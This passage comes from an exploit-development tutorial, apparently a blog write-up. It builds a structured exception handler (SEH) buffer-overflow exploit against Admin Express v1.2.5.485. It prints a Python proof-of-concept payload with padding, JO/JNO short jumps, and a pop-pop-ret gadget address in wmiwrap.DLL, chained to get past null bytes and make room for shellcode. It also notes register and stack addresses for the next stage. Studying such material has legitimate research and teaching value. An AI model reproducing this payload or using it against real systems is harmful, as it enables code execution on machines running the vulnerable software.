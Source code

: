 Awesome! The jump is ready to be taken! Our `O` flag is set to 0 at the current time of the instruction, so our jump will occur when the `JNO` operation is loaded into EIP for execution. We have a slight issue though. Look at the image below:

<img src="{{ site.url }}{{ site.baseurl }}/images/12.png" alt="">

We see there are some null bytes. These bytes are contained in our buffer of C's, not much farther down than our jump instruction. I am a paranoid person when it comes to having enough space for shellcode. Therefore, I decided to change my PoC to add __a lot__ more jumps. This way, we get way the heck away from those null bytes and we will have plenty of room to write our shellcode.  Here is the updated PoC:

```console
root@kali:~/ADMIN_EXPRESS/POC# cat poc.py 
# Proof of Concept - Admin Express v1.2.5.485 Exploit

payload = "\x41" * 4260
payload += "\x70\x7e\x71\x7e"		# JO 126 bytes. If jump fails, default to JNO 126 bytes
payload += "\x42\x4c\x01\x10"		# 0x10014c42 pop pop ret wmiwrap.DLL

# There are 2 NULL (\x00) terminators in our buffer of A's, near our nSEH jump. We are going to jump far away from them
# so we have enough room for our shellcode and to decode.
payload += "\x41" * 122			# add padding since we jumped 7e hex bytes (126 bytes) above
payload += "\x70\x7e\x71\x7e"		# JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x7e\x71\x7e"		# JO or JNO another 126 bytes, so shellcode can decode
payload += "\x41" * 124
payload += "\x70\x79\x71\x79"		# JO or JNO only 121 bytes
payload += "\x41" * 121			# NOP is in the restricted characters. Using \x41 as a slide into alignment
payload += "\x43" * (5000-len(payload))
```

We now have enough room to work with after making all the jumps! After we take our jumps, we are going to start documenting some information that will be integral to our smuggling of shellcode. Let's take a look at the following image, after the execution of our jumps:

<img src="{{ site.url }}{{ site.baseurl }}/images/13.png" alt="">

Will the Stars Align?
---
As you can see, we have reached the buffer of C's. Let's take note of some addresses here! The address of the current instruction `inc ebx` is located at `0012F313`. We can also see below that the current address of our stack pointer is at `0012DC98`:

<img src="{{ site.url }}{{ site.baseurl }}/images/14a.png" alt="">

Take note of the current ESP value. For a reason I cannot explain (and outline later), I found out that I needed to save the current stack point value __BEFORE__ I execute my shellcode. As you will see later, I will store my current ESP value into the ECX register and restore the old stack pointer right before execution of the shellcode.

Taking a look at our buffer of `C`'s, we have about __E4__ hex bytes, or __228__ bytes to work with:
